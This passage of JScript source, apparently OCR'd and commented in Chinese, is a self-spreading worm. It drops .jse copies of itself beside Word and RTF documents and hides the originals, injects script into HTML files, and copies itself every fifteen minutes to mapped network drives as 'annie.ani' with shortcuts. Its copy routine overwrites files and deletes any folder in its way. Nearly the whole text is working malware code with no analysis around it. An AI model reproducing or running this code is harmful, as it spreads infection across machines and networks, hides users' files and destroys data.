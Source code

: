             file.Close();
        } catch (e) {}
    }
}

function InfectFolder(path) {
    // 枚举路径下文件
    var e = new Enumerator(fso.GetFolder(path).Files);
    for (e.moveFirst(); !e.atEnd(); e.moveNext()) {
        var filepath = e.item().Path;
        // 如果扩展名为'doc'、'docx'、'ref'并且文件没有打开
        if ((GetExtensionName(filepath) == 'doc' || GetExtensionName(filepath) == 'docx' || GetExtensionName(filepath) == 'rtf') && GetBaseName(filepath).substr(0, 2) != '~$') {
            // 拷贝脚本文件路径下，文件名为已存在office文件名，扩展名为'.jse'
            CopyScriptFile(path + '\\' + GetBaseName(filepath) + '.jse');
            // 隐藏原文件
            SetFileNewAttributes(filepath, 38);
        } else if (GetExtensionName(filepath) == 'htm' || GetExtensionName(filepath) == 'html') { // 如果扩展名为'htm' 或 'html'
            // 编辑HTML文件，将脚本代码插入进去
            EditHTML(filepath);
        }
        WScript.Sleep(4);
    }
}

function RegReadItem(item) {
    return shell.RegRead('HKCR\\' + item + '\\');
}

function InfectNetworkDrives() {
    while (ScriptPath == SysPath) {
        try {
            var network = new ActiveXObject('WScript.Network');
            var e = network.EnumNetworkDrives();
            for (var i = 1; i < e.length; i += 2) {
                CopyScriptFile(e.Item(i) + '\\annie.ani');
                CreateShortcut(e.Item(i) + '\\');
                InfectFolder(e.Item(i) + '\\');
            }
        } catch (e) {}
        WScript.Sleep(900000);
    }
}

function CopyScriptFile(filename) {
    // 如果文件大小不为9201
    if (GetFileSize(filename) != 9201) {
        // 设置文件属性为Normal
        SetFileNewAttributes(filename, 0);
        try {
            // 尝试重写文件
            var f = fso.CreateTextFile(filename, true);
            f.Write(script);
            f.Close();
        } catch (e) {   // 如果重写失败
            // 如果文件路径为文件夹
            if (fso.FolderExists(filename)) {
                // 删除文件夹
                DeleteFolder(filename);
                // 重新拷贝脚本文件
                CopyScriptFile(filename);
            }
        } finally {
            // 如果文件扩展名不为'jse'